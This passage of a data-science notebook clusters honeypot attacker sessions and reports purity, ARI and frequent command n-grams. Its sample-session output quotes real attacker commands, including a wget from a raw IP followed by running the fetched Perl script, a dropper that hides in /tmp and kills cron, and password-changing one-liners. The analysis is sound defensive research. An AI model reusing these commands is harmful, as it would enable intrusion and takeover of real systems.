    dominant = row.idxmax()
    score = row.max()
    print(f"   - Cluster {k} is dominated by '{dominant}' ({score:.2%})")

For GMM

=== 3.6 EXTERNAL EVALUATION (GMM) ===
Data Loaded:
   - Predicted Clusters: (233035,)
   - Ground Truth Matrix: (233035, 7)

2. Converting Ground Truth to Single Labels...
   -> Classes: ['Defense Evasion' 'Discovery' 'Execution' 'Harmless' 'Impact' 'Other'
 'Persistence']

3. Calculating Evaluation Metrics...
   >>> PURITY: 0.9898 (0 to 1)
   >>> ADJUSTED RAND INDEX (ARI): 0.2210 (-1 to 1)

4. Visualizing Intent Division...





>>> DETAILED GMM CLUSTER COMPOSITION:
   - Cluster 0 is dominated by 'Discovery' (99.51%)
   - Cluster 1 is dominated by 'Discovery' (100.00%)
   - Cluster 2 is dominated by 'Defense Evasion' (99.34%)
   - Cluster 3 is dominated by 'Discovery' (100.00%)
   - Cluster 4 is dominated by 'Discovery' (45.08%)


In [ ]:
import matplotlib.pyplot as plt
import pandas as pd
import numpy as np
import joblib as jl
import seaborn as sns
from sklearn.metrics import adjusted_rand_score
from sklearn.preprocessing import MultiLabelBinarizer
import ast

print("=== 3.6 EXTERNAL EVALUATION (GMM) ===")

# --- 1. LOAD DATA ---
try:
    # Load Predicted Cluster Labels (GMM)
    y_pred = jl.load('gmm_labels.pkl')

    # Load Ground Truth Matrix (The target 'y')
    y_true_matrix = jl.load('matrice_y.pkl')

    # Load Raw Data to recover Class Names (Intents)
    raw_data = jl.load('df_fingerprint_list.pkl')

    print(f"Data Loaded:")
    print(f"   - Predicted Clusters: {y_pred.shape}")
    print(f"   - Ground Truth Matrix: {y_true_matrix.shape}")

except FileNotFoundError as e:
    raise FileNotFoundError(f"Missing file: {e}. Ensure previous steps are run.")

# --- 2. PREPARE GROUND TRUTH LABELS ---
print("\n2. Converting Ground Truth to Single Labels...")

# Recover class names from the raw list of tags
if len(raw_data) > 0 and isinstance(raw_data[0], str):
    try:
        raw_data = [ast.literal_eval(x) for x in raw_data]
    except:
        pass 
        
mlb = MultiLabelBinarizer()
mlb.fit(raw_data)
class_names = mlb.classes_
print(f"   -> Classes: {class_names}")

# Convert multi-label matrix to single labels (argmax)
# We take the dominant class for evaluation against the single-cluster ID
y_true_indices = y_true_matrix.argmax(axis=1)
y_true_names = np.array([class_names[i] for i in y_true_indices])

# --- 3. CALCULATE METRICS (PURITY & ARI) ---
print("\n3. Calculating Evaluation Metrics...")

def purity_score(y_true, y_pred):
    # Compute confusion matrix
    contingency_matrix = pd.crosstab(y_true, y_pred)
    # Return sum of max values in each column / total samples
    return np.sum(contingency_matrix.max(axis=0)) / np.sum(contingency_matrix.sum())

purity = purity_score(y_true_indices, y_pred)
ari = adjusted_rand_score(y_true_indices, y_pred)

print(f"   >>> PURITY: {purity:.4f} (0 to 1)")
print(f"   >>> ADJUSTED RAND INDEX (ARI): {ari:.4f} (-1 to 1)")

# --- 4. VISUALIZATION (INTENT DISTRIBUTION) ---
print("\n4. Visualizing Intent Division...")

# Create a DataFrame combining Clusters and True Intents
df_eval = pd.DataFrame({
    'Cluster': y_pred,
    'Intent': y_true_names
})

# Cross-tabulation: Count how many of each Intent are in each Cluster
# Normalize='index' calculates percentages per cluster (rows sum to 1)
ct = pd.crosstab(df_eval['Cluster'], df_eval['Intent'], normalize='index')

# Plot Stacked Bar Chart
ax = ct.plot(kind='bar', stacked=True, figsize=(12, 7), colormap='tab10')

plt.title('Homogeneity Analysis: How Intents are divided into GMM Clusters', fontsize=15)
plt.xlabel('GMM Component ID', fontsize=12)
plt.ylabel('Proportion of Intents', fontsize=12)
plt.legend(title='True Intent', bbox_to_anchor=(1.05, 1), loc='upper left')
plt.grid(axis='y', linestyle='--', alpha=0.3)
plt.xticks(rotation=0)
plt.tight_layout()
plt.show()

# --- 5. PRINT DOMINANT CLASS PER CLUSTER ---
print("\n>>> DETAILED GMM CLUSTER COMPOSITION:")
unique_clusters = sorted(np.unique(y_pred))
for k in unique_clusters:
    if k in ct.index:
        row = ct.loc[k]
        dominant = row.idxmax()
        score = row.max()
        print(f"   - Cluster {k} is dominated by '{dominant}' ({score:.2%})")

### 3.6 clusters of similar attacks

3.6.1 Clusters of similiar attacks for k-means

=== 3.6 FINE-GRAINED ATTACK ANALYSIS ===
Data Loaded. Total sessions: 233035

------------------------------------------------------------
>>> DEEP DIVE: CLUSTER 4
------------------------------------------------------------
1. Extracting common command sequences (N-grams)...
   Selected Frequent N-gram sequences:
   - "cd /tmp" (Count: 7196)
   - "chmod 777" (Count: 6411)
   - "lc_all=c passwd" (Count: 4992)
   - "/bin/busybox chmod" (Count: 4930)
   - "/bin/busybox chmod 777" (Count: 4925)
   - "sh shell" (Count: 4885)
   - "shell cd" (Count: 4855)
   - "shell cd /tmp" (Count: 4851)
   - "sh shell cd" (Count: 4834)
   - "/bin/busybox wget" (Count: 4793)

2. Inspecting 3 Random Sessions:
   Sample 1: killall -9 perl ; cd /var/tmp/ ; cd /tmp/ ; rm -rf ssh1.txt ; wget http://185.234.217.21/ssh1.txt ; mv ssh1.txt wget.txt ; perl wget.txt 193.169.254.1...
   Sample 2: cd /var/tmp ; echo " [DECODED: #!/bin/bash
cd /tmp
rm -rf .X15-unix
mkdir .X15-unix
cd .X15-unix
pkill -9 cron > .out
wget




------------------------------------------------------------
>>> DEEP DIVE: CLUSTER 0
------------------------------------------------------------
1. Extracting common command sequences (N-grams)...
   Selected Frequent N-gram sequences:
   - "/proc/cpuinfo grep" (Count: 14957)
   - "cat /proc/cpuinfo" (Count: 14957)
   - "cat /proc/cpuinfo grep" (Count: 14957)
   - "grep name" (Count: 14957)
   - "/proc/cpuinfo grep name" (Count: 9997)
   - "awk print" (Count: 9989)
   - "grep name wc" (Count: 9962)
   - "name wc" (Count: 9962)
   - "name wc -l" (Count: 9962)
   - "wc -l" (Count: 9962)

2. Inspecting 3 Random Sessions:
   Sample 1: cat /proc/cpuinfo | grep name | wc -l ; echo -e "shimon\ny3gPBNBi0aTt\ny3gPBNBi0aTt" | passwd | bash ; echo "shimon\ny3gPBNBi0aTt\ny3gPBNBi0aTt\n" | p...
   Sample 2: cat /proc/cpuinfo | grep name | wc -l ; echo -e "admin123\nnyINjeMGRMYf\nnyINjeMGRMYf" | passwd | bash ; echo "admin123\nnyINjeMGRMYf\nnyINjeMGRMYf\n"...
   Sample 3: cat /proc/cpuinfo | grep



In [7]:
import matplotlib.pyplot as plt
import pandas as pd
import numpy as np
import joblib as jl
from sklearn.feature_extraction.text import CountVectorizer
import networkx as nx
import random

print("=== 3.6 FINE-GRAINED ATTACK ANALYSIS ===")

# --- 1. LOAD DATA ---

try:
    df_raw = jl.load('df.pkl')
    labels = jl.load('kmeans_labels.pkl')
    df_raw['cluster'] = labels
    print(f"Data Loaded. Total sessions: {len(df_raw)}")
except FileNotFoundError:
    raise FileNotFoundError("Run previous steps to generate 'df.pkl' and 'kmeans_labels.pkl'")





# --- 2. DEFINE ANALYSIS FUNCTION ---
def analyze_fine_grained(cluster_id):
    print(f"\n{'-'*60}")
    print(f">>> DEEP DIVE: CLUSTER {cluster_id}")
    print(f"{'-'*60}")

    # Isolate sessions belonging to the specific cluster
    cluster_docs = df_raw[df_raw['cluster'] == cluster_id]['full_session'].astype(str).tolist()

    # --- A. N-Gram Analysis ---
    print(f"1. Extracting common command sequences (N-grams)...")

    def clean_text(text):
        return text.replace(';', ' ').replace('|', ' ').replace('&', ' ')

    cluster_docs_clean = [clean_text(doc) for doc in cluster_docs]

    # Using a fixed seed to ensure results are reproducible.
    random.seed(42)
    if len(cluster_docs_clean) > 5000:
        cluster_docs_clean = random.sample(cluster_docs_clean, 5000)

    ngram_vectorizer = CountVectorizer(ngram_range=(2, 3), max_features=20, token_pattern=r'\S+')
    try:
        X_ngram = ngram_vectorizer.fit_transform(cluster_docs_clean)
        counts = X_ngram.sum(axis=0).A1
        vocab = ngram_vectorizer.get_feature_names_out()
        freq_dist = list(zip(vocab, counts))
        freq_dist.sort(key=lambda x: x[1], reverse=True)

        print("   Selected Frequent N-gram sequences:")
        for phrase, count in freq_dist[:10]:
            print(f"   - \"{phrase}\" (Count: {count})")
    except ValueError:
        print("   (Not enough data for N-grams)")

    # --- B. Raw Session Inspection ---
    print(f"\n2. Inspecting 3 Random Sessions:")
    if len(df_raw[df_raw['cluster'] == cluster_id]) > 0:
        # Sample 3 random sessions to sanity check the statistical findings
        sample_sessions = df_raw[df_raw['cluster'] == cluster_id]['full_session'].sample(
            min(3, len(cluster_docs)), random_state=42
        ).values
        for i, sess in enumerate(sample_sessions):
            print(f"   Sample {i+1}: {sess[:150]}...")
    else:
        print("   No sessions in this cluster.")

    # --- C. Co-occurrence Graph Visualization ---
    print(f"\n3. Generating Co-occurrence Graph...")

    try:
        # Increase max_features slightly to capture broader context for the graph
        graph_vectorizer = CountVectorizer(max_features=25, stop_words=['and', 'the', 'to'], token_pattern=r'\S+')
        X_graph = graph_vectorizer.fit_transform(cluster_docs_clean)

        # Compute the co-occurrence matrix
        xc = (X_graph.T * X_graph)
        xc.setdiag(0) # Remove self-loops (word appearing with itself)

        names = graph_vectorizer.get_feature_names_out()
        total_counts = X_graph.sum(axis=0).A1
        word_counts_dict = dict(zip(names, total_counts))

        G = nx.Graph()
        rows, cols = xc.nonzero()

        # Dynamic threshold: only keep edges with >5% of the max co-occurrence
        # to prevent the graph from becoming a "hairball"
        max_val = xc.max()
        threshold = max_val * 0.05

        for i, j in zip(rows, cols):
            weight = xc[i, j]
            if weight > threshold:
                G.add_edge(names[i], names[j], weight=weight)

        # Plotting with node sizing
        if len(G.nodes) > 0:
            plt.figure(figsize=(12, 10))

            pos = nx.spring_layout(G, k=2.5, seed=42, iterations=50)
            node_sizes = []
            for node in G.nodes():
                freq = word_counts_dict[node]
                text_len = len(node)

                # Base size derived from frequency
                freq_size = freq * 0.5

                # Minimum size required to fit the word (heuristic: length * factor)
                min_text_size = (text_len * 500) + 1500

                # Pick the larger of the two to ensure readability
                final_size = max(freq_size, min_text_size)

                # Cap the maximum size to keep the graph tidy
                final_size = min(final_size, 12000)

                node_sizes.append(final_size)

            # Draw components
            nx.draw_networkx_nodes(G, pos, node_size=node_sizes, node_color='#87CEEB', alpha=0.95, edgecolors='navy')
            nx.draw_networkx_edges(G, pos, width=1.5, alpha=0.4, edge_color='gray')
            nx.draw_networkx_labels(G, pos, font_size=9, font_weight='bold', font_color='black')
            plt.title(f"Attack Context Graph - Cluster {cluster_id}", fontsize=15)
            plt.axis('off')
            plt.margins(0.2)
            plt.tight_layout()
            plt.show()
        else:
            print("   (No strong connections found)")

    except ValueError:
        print("   (Not enough data for graph)")

# --- 3. RUN ---
analyze_fine_grained(4)
analyze_fine_grained(0)